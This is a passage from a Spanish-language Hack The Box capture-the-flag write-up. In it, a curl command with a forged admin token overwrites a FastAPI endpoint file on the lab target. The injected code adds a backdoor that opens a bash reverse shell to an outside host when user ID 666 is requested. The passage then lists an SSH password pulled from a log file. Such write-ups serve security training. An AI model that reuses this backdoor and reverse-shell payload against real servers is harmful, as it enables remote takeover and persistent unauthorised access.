 ```echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64 # -> L2hvbWUvaHRiL2FwcC9hcGkvdjEvZW5kcG9pbnRzL3VzZXIucHk=```

El resultado del one liner seria este:
```
curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64) -H 'Content-Type: application/json' -d '{"file": "from typing import Any, Optional\nfrom uuid import uuid4\nfrom datetime import datetime\n\n\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\nfrom fastapi.security import OAuth2PasswordRequestForm\nfrom sqlalchemy.orm import Session\n\nfrom app import crud\nfrom app import schemas\nfrom app.api import deps\nfrom app.models.user import User\nfrom app.core.security import get_password_hash\n\nfrom pydantic import schema\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\n    else:\n        return original_field_schema(field, **kwargs)\n\noriginal_field_schema = schema.field_schema\nschema.field_schema = field_schema\n\nfrom app.core.auth import (\n    authenticate,\n    create_access_token,\n)\n\nrouter = APIRouter()\n\n@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)\ndef fetch_user(*, \n    user_id: int, \n    db: Session = Depends(deps.get_db) \n    ) -> Any:\n    \"\"\"\n    Fetch a user by ID\n    \"\"\"\n    if user_id == 666:\n        import os; os.system('\''bash -c \"bash -i >& /dev/tcp/10.10.14.12/443 0>&1\"'\'')\n    result = crud.user.get(db=db, id=user_id)\n    return result\n\n\n@router.put(\"/{user_id}/edit\")\nasync def edit_profile(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.UserUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Edit the profile of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.put(\"/{user_id}/password\")\nasync def edit_password(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.PasswordUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Update the password of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.post(\"/login\")\ndef login(db: Session = Depends(deps.get_db),\n    form_data: OAuth2PasswordRequestForm = Depends()\n) -> Any:\n    \"\"\"\n    Get the JWT for a user with data from OAuth2 request form body.\n    \"\"\"\n    \n    timestamp = datetime.now().strftime(\"%m/%d/%Y, %H:%M:%S\")\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\n    if not user:\n        with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\n    \n    with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\n\n    return {\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\n        \"token_type\": \"bearer\",\n    }\n\n@router.post(\"/signup\", status_code=201)\ndef create_user_signup(\n    *,\n    db: Session = Depends(deps.get_db),\n    user_in: schemas.user.UserSignup,\n) -> Any:\n    \"\"\"\n    Create new user without the need to be logged in.\n    \"\"\"\n\n    new_user = schemas.user.UserCreate(**user_in.dict())\n\n    new_user.guid = str(uuid4())\n\n    user = db.query(User).filter(User.email == new_user.email).first()\n    if user:\n        raise HTTPException(\n            status_code=400,\n            detail=\"The user with this username already exists in the system\",\n        )\n    user = crud.user.create(db=db, obj_in=new_user)\n\n    return user\n\n"}' -H 'Authorization: bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A'
```

-------------------------
# Part 6: Dentro del sistema

Una vez en el sistema, al igual que la máquina anterior, en la carpeta principal hay un auth.log con una contraseña que nos permitiría conectarnos
como el usuario actual por ssh ```1qaz2wsx_htb!```
Una vez dentro de la máquina, si haces ```sudo -l``` y pones la contraseña te sale un juego del wordle
```